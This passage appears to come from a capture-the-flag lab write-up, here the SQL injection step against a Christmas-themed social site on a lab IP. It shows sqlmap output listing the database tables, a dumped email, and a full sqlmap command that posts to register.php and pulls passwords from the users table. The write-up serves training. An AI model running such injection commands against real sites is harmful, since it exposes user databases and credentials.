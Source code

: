   ~~~bash
  [01:12:58] [INFO] the back-end DBMS is MySQL
  back-end DBMS: MySQL >= 5.0.12
  [01:12:58] [INFO] fetching tables for database: 'social'
  [01:12:58] [INFO] resumed: 'comments'
  [01:12:58] [INFO] resumed: 'friend_requests'
  [01:12:58] [INFO] resumed: 'likes'
  [01:12:58] [INFO] resumed: 'messages'
  [01:12:58] [INFO] resumed: 'notifications'
  [01:12:58] [INFO] resumed: 'posts'
  [01:12:58] [INFO] resumed: 'trends'
  [01:12:58] [INFO] resumed: 'users'
  Database: social                                                                                                                                                                  
  [8 tables]
  +-----------------+
  | comments        |
  | friend_requests |
  | likes           |
  | messages        |
  | notifications   |
  | posts           |
  | trends          |
  | users           |
  +-----------------+
  [01:13:36] [WARNING] Ctrl+C detected in dumping phase                                                                                                                             
  Database: social
  Table: users
  [1 entry]
  +--------------------+
  | email              |
  +--------------------+
  | bigman@shefesh.com |
  +--------------------+
  
  [*] ending @ 01:13:36 /2020-10-01/
  ~~~

  bigman@shefesh.com

- What is Santa Claus' plaintext password?

  **Solution:**

  ~~~bash
  $ python3 sqlmap.py -u http://10.10.29.192/register.php --data="log_email=hey&log_password=123&login_button=Login" --tables -D social -T users -C id,password,email,username --sql-query "select id,password,email,username from users where username like '%santa%'"
          ___
         __H__
   ___ ___["]_____ ___ ___  {1.4.9.23#dev}
  |_ -| . [(]     | .'| . |
  |___|_  [,]_|_|_|__,|  _|
        |_|V...       |_|   http://sqlmap.org
  
  [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
  
  [*] starting @ 01:42:14 /2020-10-01/
  
  [01:42:14] [INFO] resuming back-end DBMS 'mysql' 
  [01:42:14] [INFO] testing connection to the target URL
  you have not declared cookie(s), while server wants to set its own ('PHPSESSID=j310t68mqqr...37sav0jie1'). Do you want to use those [Y/n] y
  ~~~